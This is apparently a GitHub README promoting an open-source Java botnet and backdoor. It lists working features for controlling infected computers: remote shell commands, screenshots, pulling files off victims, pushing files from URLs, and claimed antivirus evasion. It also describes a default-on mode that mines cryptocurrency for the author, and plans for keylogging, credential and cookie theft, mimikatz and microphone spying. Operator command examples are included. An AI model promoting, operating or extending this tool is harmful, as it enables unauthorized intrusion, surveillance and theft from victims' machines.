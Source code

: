It is ofical the botnet is open source :D

here is a list of all the options:

it supports a 1000 users, shell acces to the infected computer, information giving about the infected computer like ( external ip, hostname, operating system and administrator or not when your on windows ), keepalive check, screenshot, downloaden and uploaden.

things that are partitional completed are: selfdestruct the virus.

the backdoor isn't seen by any viruscaner ( checked on date 11/3/2017 ).
the botnet is written in java with netbeans.

things that i didn't add are Ddos or randsomeware.

options that i am working on are: vnc, webcam snapshot, a keylogger, Persistence backdoor, network scan likely with nmap, passwords and cookie grap ( also skype ), video on full screen that cant be closed, mimikatz, Distributed hash cracking, microfone spying, popup for credentials, script mining.

there is a option thats enabled is sponsormode that will if enabled mine for the creator but it can easly be dissabled by going in the server and change the varible sponsormode from true to false.

this are the wworking options:
list info : that will give you a detailed list of all the computers in the botnet and thee hostname, external ip, operating system, adn if on windows if it had administrator rights.
msgbox : this will give a msgbox on the targets computer.
download : here can you download a file from the infected computer to the server ( full path is needed )
upload : send a file to the computers tmp using a url.
shell : here can you type cmd commands to the computer ( the shell closes automatic when the command is completed ).
screenshot : here can you make a screenshot of the defauld screen from the infecteed computer ( will be sended to the servers)
javaversion : request version of java from infected computer.
exit : closes connection.

by thee options msgbox, download, upload, shell, screenshot, javaversion and exit you have to give the hostname and external ip to send to someone here some examples you can find the hostname and external ip easy with list info : 
minepc@1.2.3.4 shell dir C:\
minepc@1.2.3.4 msgbox hello
minepc@1.2.3.4 download C:\Users\mh123hack\Downloads\botnet-herder.jpg
minepc@1.2.3.4 upload http://thestartupmag.com/wp-content/uploads/2016/10/hacked.png
minepc@1.2.3.4 screenshot
minepc@1.2.3.4 javaversion
minepc@1.2.3.4 exit
list info

the victum is also the client open the victum with netbeans to control the botnet!

the botnet is supported for windows, linux, and maby mac but i havend tested this.
the standard port for the precompiled server ( botnet-server.jar ) is 4600 but you can change this in the source code.

I want to thank ( O shit waddup ) from hackflag for making a video tutorial for the botnet.
https://hackflag.org/forum/member.php?action=profile&uid=5209

if you want your hacker name here donate or make the botnet famous.
retweet: https://twitter.com/martinhermens1/status/839979932541415424
if you retweet this then your name will be placed down here.

we are over 100 downloads if this botnet becomes famous than i will make updates on request.

i hope you like my botnet :D

dear regards.
mh123hack
litecoin: LaLRA68RC6EdUdFFxtbkgzvmTSKRyFZndk

DONATORS:


SHARES:

@TrollForums